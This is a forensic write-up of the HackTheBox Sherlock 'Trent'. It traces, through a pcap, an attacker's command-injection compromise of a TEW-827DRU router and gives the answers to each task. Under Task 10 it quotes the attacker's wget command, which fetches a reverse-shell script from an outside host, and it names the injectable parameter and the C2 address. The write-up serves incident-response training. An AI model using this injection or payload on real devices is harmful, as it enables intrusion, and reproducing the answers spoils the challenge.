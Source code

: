 # [HackTheBox Sherlocks - Trent](https://app.hackthebox.com/sherlocks/Trent)
Created: 17/02/2025 13:15
Last Updated: 19/02/2025 13:14
* * *
![ca4f203679a302944eaea19f43b49ca6.png](/resources/ca4f203679a302944eaea19f43b49ca6.png)

**Scenario:**
The SOC team has identified suspicious lateral movement targeting router firmware from within the network. Anomalous traffic patterns and command execution have been detected on the router, indicating that an attacker already inside the network has gained unauthorized access and is attempting further exploitation. You will be given network traffic logs from one of the impacted machines. Your task is to conduct a thorough investigation to unravel the attacker's Techniques, Tactics, and Procedures (TTPs).

* * *
>Task 1: From what IP address did the attacker initially launched their activity?

We only have 1 pcap file to work with so after opened it on Wireshark, I realized that there are a lot of HTTP requests which mean the attacker might communicated with router vie web interface

![500fe7e8d09a47a878d1225b104a7eed.png](/resources/500fe7e8d09a47a878d1225b104a7eed.png)

When the attacker sent anything to server, such as credential to login, file upload, command via webshell, the HTTP request method that used to carry out these activities are POST request

So I filtered with `http.request.method == POST` to only have HTTP POST requests then we could see total of 47 HTTP POST request but almost half of them are localhost sending to localhost (self) and from Network 101, we know that an IP address end with 1 is a gateway or a router in this case which make another IP address an IP address within the network and we could suspect it to be an IP address of the attacker.

![09d7721b0bc45ac5bb3ef222e6c4569e.png](/resources/09d7721b0bc45ac5bb3ef222e6c4569e.png)

By trying to understand what happened, I kept inspecting each POST request which I finally found that potential command injection on the router so our hypothesis is confirmed at this point.

```
192.168.10.2
```

>Task 2: What is the model name of the compromised router?

![b993027582c0015846dfab2ce65c8355.png](/resources/b993027582c0015846dfab2ce65c8355.png)

By searching for "model" string, we can see that there is model name of the router on defined on the web interface 

```
TEW-827DRU
```

>Task 3: How many failed login attempts did the attacker try before successfully logging into the router?

![4461dd4dea1c4dec15e44097dfe7b73c.png](/resources/4461dd4dea1c4dec15e44097dfe7b73c.png)

Now after filter out localhost with `http.request.method == POST && ip.addr == 192.168.10.2` then by inspecting first 3 HTTP POST requests (/apply_sec.cgi), we could see that there are 2 attempts to login into the router before successfully logged with with admin user without a password.

```
2
```

>Task 4: At what UTC time did the attacker successfully log into the routers web admin interface?

![20b0143cb0735b0db632da044bcee9e0.png](/resources/20b0143cb0735b0db632da044bcee9e0.png)
```
2024-05-01 15:53:27
```

>Task 5: How many characters long was the password used to log in successfully?	
```
0
```

>Task 6: What is the current firmware version installed on the compromised router?

![d40b4df9d4c4dd44a926a524fa99f5cf.png](/resources/d40b4df9d4c4dd44a926a524fa99f5cf.png)

We can filter for "fw" or "version" string which will lead us that the js file that will get router information which the firmware version will be stored in `fw_ver`

![654a9cdd77bf7ab381349d7951890d9b.png](/resources/654a9cdd77bf7ab381349d7951890d9b.png)

Now we know that this router shorten the string "firmware" to "fw" so we can continue to search with "fw" then we will see that current firmware version installed on the router right here.

```
2.10
```

>Task 7: Which HTTP parameter was manipulated by the attacker to get remote code execution on the system?

![e1833f6e9cf7eff9d1f2da83e9a60066.png](/resources/e1833f6e9cf7eff9d1f2da83e9a60066.png)

From the task 1, we know that there was an os command injection attempts on `usbapps.config.smb_admin_name` parameter 

![1ff0c01390077165d27cef040db6a4c2.png](/resources/1ff0c01390077165d27cef040db6a4c2.png)

We can also confirm the other POST command with different payload, on this case we can see that the attacker tried to download bash script from the attacker IP address on port 8000.

![cea1b390d44eb0ec8e818ce203a6d730.png](/resources/cea1b390d44eb0ec8e818ce203a6d730.png)

I made life easier by opened this pcap file on NetworkMiner than by filtered with common strings in os command injection payload we found then we will see that the attacker tried to download this bash script many times and once it got downloaded then the attacker used bash to execute it  

```
usbapps.config.smb_admin_name
```

>Task 8: What is the CVE number associated with the vulnerability that was exploited in this attack?

![93bedc9109b0ed3ed11cfb164e3573f0.png](/resources/93bedc9109b0ed3ed11cfb164e3573f0.png)

We have to approach here, by filtering for router model and firmware or by filtering for vulnerable parameter which will lead to one CVE which is [CVE-2024-28353 command injection vulnerability](https://warp-desk-89d.notion.site/TEW-827DRU-5c40fb20572148f0b00f329d69273791).


```
CVE-2024-28353
```

>Task 9: What was the first command the attacker executed by exploiting the vulnerability?

![155f9c86c4056ffb8177e32dab26bb5c.png](/resources/155f9c86c4056ffb8177e32dab26bb5c.png)
We know that the first command that the attacker tested and executed is `whoami`

```
whoami
```

>Task 10: What command did the actor use to initiate the download of a reverse shell to the router from a host outside the network?

![e100d8842a11a63f3855f0dd20fc9cfe.png](/resources/e100d8842a11a63f3855f0dd20fc9cfe.png)

As we can see that the attacker tried to download file from both external host and internal host 

```
wget http://35.159.25.253:8000/a1l4m.sh
```

>Task 11: Multiple attempts to download the reverse shell from an external IP failed. When the actor made a typo in the injection, what response message did the server return?	


![a639b1ecacb98acad8491281499ff919.png](/resources/a639b1ecacb98acad8491281499ff919.png)

We can see that there is a little different on the command to get bash script from an external host right here so i suspected that this must be the typo made by the attacker.

![b7cf3c2119791c3bced97427a05df08b.png](/resources/b7cf3c2119791c3bced97427a05df08b.png)

Lets go back to Wireshark, we can see the same payload on packet number 51885 so lets follow the stream of this request.

![b8b52ac1f3ee6e983d663dd7bfbbf1ee.png](/resources/b8b52ac1f3ee6e983d663dd7bfbbf1ee.png)

Look at the HTTP response, then we can see the error message right here.

```
Access to this resource is forbidden
```

>Task 12: What was the IP address and port number of the command and control (C2) server when the actor's reverse shell eventually did connect? (IP:Port)

![1fbe192ee598b128f5bd04c728aaea91.png](/resources/1fbe192ee598b128f5bd04c728aaea91.png)

We have 2 approaches on this question, since we know that the file was requested via HTTP then we could use Wireshark to export HTTP object right here.

![28b339c6ffda65355d93fe89294d7abd.png](/resources/28b339c6ffda65355d93fe89294d7abd.png)

But i don't want to export it so I clicked the object which lead me to packet number 74345 and then I followed HTTP/TCP stream and inspect the response from the attacker machine which is the content of bash script and as we can see on the image that this is reverse shell command to connect to an external IP address on port 41143

![ad08a1ca00b3ca909ea19789410d004c.png](/resources/ad08a1ca00b3ca909ea19789410d004c.png)

Take an extra step to filter on this port but evidently, there is no any packets from this filter so we can assume that the attacker failed to establish reverse shell connection from the script.

![3bff12aa938811e26589239ee37042c7.png](/resources/3bff12aa938811e26589239ee37042c7.png)

Now, we came to the second approach that is using NetworkMiner and it will assemble files within pcap automatically upon opening the pcap file so if we opened the file from NetworkMiner then we will also have the same script we found earlier as well.

```
35.159.25.253:41143
```

![14d2784a332c149451fb30174a4677e6.png](/resources/14d2784a332c149451fb30174a4677e6.png)
https://labs.hackthebox.com/achievement/sherlock/1438364/841
* * *
